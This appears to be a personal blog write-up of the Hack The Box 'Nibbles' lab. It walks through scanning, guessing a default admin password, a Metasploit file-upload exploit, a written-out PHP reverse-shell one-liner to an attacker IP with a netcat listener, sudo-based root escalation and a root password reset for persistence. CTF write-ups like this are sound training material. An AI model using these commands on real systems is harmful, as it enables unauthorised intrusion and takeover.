 ```yaml
---
layout: post
title: "Nibbles write-up"
date: 2018-06-27
excerpt: "Simple rooting thanks to default passwords and file privilege misconfigurations."
tags: [Hack The Box, Pentesting, Default Password, Nibbleblog, File privileges]
comments: true
feature: https://www.linuxcloudvps.com/blog/wp-content/uploads/2016/05/nibbleblog.jpg
---
```


# Hack The Box: Nibbles machine write-up

This writeup will be shorter than usual given that the machine was fairly easy to root. The ip is 10.10.10.75.

#### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA first 10.10.10.64
```

And the result was:

```sh
# Nmap 7.01 scan initiated Tue Jun 26 12:27:14 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|_  256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 26 12:27:38 2018 -- 1 IP address (1 host up) scanned in 25.00 seconds
```

Not many things in here, so I decide to check the webserver on port 80. Initially I don't find anything interesting, just a 'hello world' message, but then I inspect the server's response and find out about a directory called 'nibbleblog'.

*Initial file*

![Img](/assets/posts_details/Nibbles/images/initial.png "Img")

*Intercepted response*

![Img](/assets/posts_details/Nibbles/images/burp.png "Img")

*Blog on /nibbleblog directory*

![Img](/assets/posts_details/Nibbles/images/nb.png "Img")

That's when I fire up DirBuster and get down to business. I set the initial directory to be nibbleblog and let it run. It enumerated over [400 directories/files](files/DirBusterReport-10.10.10.75-80.txt), but only one was of interest: `admin.php`.

*Admin.php login*

![Img](/assets/posts_details/Nibbles/images/login.png "Img")

As I hadn't found any credentials anywhere, it looked like we had to guess the password. Trying with the following credentials resulted in success:

* Username: admin
* Password: nibbles

#### Exploit

Once in, we had to find some vulnerability which would allow us to get RCE. After googling for a while, I came across one in metasploit. It was `multi/http/nibbleblog_file_upload`. We couldn't have used it earlier, as it required the username and password to log in to the control system.

It basically takes advantage of an image vulnerability which lets you upload php code instead. So, after setting the parameters, we get a meterpreter session

*Meterpreter session*

![Img](/assets/posts_details/Nibbles/images/msp.png "Img")

However, this is not a real shell, so there are many limitations (we can execute limited commands like `cat` or `ls`, but not `whoami`, for instance). That said, we could read the user flag.

To get around this issue, I used a php one-liner reverse shell and listened on another terminal window with netcat. Besides, I changed the metasploit payload to `php/reverse_php` so that I could execute the one-liner.

* `php -r '$sock=fsockopen("10.10.14.47",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

* `nc -lnvp 1234`

*New payload with fully upgraded reverse php shell*

![Img](/assets/posts_details/Nibbles/images/php.png "Img")

#### Root

After reading user flag we initially discover a zip file called `personal.zip`. I unzipped it and going down two directories to `personal/stuff` I come across a file called `monitor.sh`.

The first thing I usually do is run `sudo -l` and then `linenum.sh`. Well, this time it wasn't even necessary to do the second one, as `sudo -l` revealed that we could edit the file `monitor.sh` and run it as sudo. And everyone knows that means we own the box.

*`sudo -l` output*

![Img](/assets/posts_details/Nibbles/images/sudol.png "Img")

We can just write to the file and then run it:

*Getting the root hash*

![Img](/assets/posts_details/Nibbles/images/root.png "Img")

In order to achieve persistency (until the root password is changed), we can set the root password and log in through ssh:

*Getting to be root*

![Img](/assets/posts_details/Nibbles/images/pers1.png "Img")
---
![Img](/assets/posts_details/Nibbles/images/pers2.png "Img")

*Diego Bernal Adelantado*
